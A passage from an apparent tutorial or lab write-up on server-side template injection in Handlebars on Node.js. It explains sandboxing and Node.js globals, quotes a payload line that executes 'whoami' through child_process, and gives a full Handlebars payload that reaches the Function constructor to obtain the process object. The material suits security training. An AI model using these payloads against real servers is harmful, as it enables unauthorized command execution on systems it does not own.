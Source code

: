 	{{this.push "return require('child_process').exec('whoami');"}}

This is likely the part of the payload that is erroring out. `require` is a keyword in JavaScript and more specifically Node.js that is used to load code from other modules or files. The above code is attempting to load the Child Process module into memory and use it to execute system commands (in this case `whoami`).

Template Engines are often Sandboxed, meaning their code runs in a restricted code space so that in the event of malicious code being run, it will be very hard to load modules that can run system commands. If we cannot directly use `require` to load such modules, we will have to find a different way.


### Globals

In programming, "Globals" are variables that are globally accessible throughout the program. In Node.js this works similarly, with Global objects being available in all loaded modules. A quick Google search using the keywords `Node.js Global Scope` reveals [this](https://nodejs.org/api/globals.html) documentation that details all of the available Global Objects in Node.js. It is worth noting that the [documentation](https://nodejs.org/api/globals.html#global-objects) also showcases a list of variables that appear to be global objects, but in fact are [built-in](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects) objects. These are the following:

	__dirname
	__filename
	exports
	module
	require()

`require` is in fact not in the global scope and therefore in specific cases it might not be accessible. Taking a closer look at the documentation we see that there is a [process](https://nodejs.org/api/process.html#process) object available. The documentation states that this object *provides information about, and control over, the current Node.js process.* We might be able to use this object to load a module. Let's see if we can call it from the SSTI. Modify your payload as follows:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process;"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
	        {{this}}
	      {{/with}}
	    {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
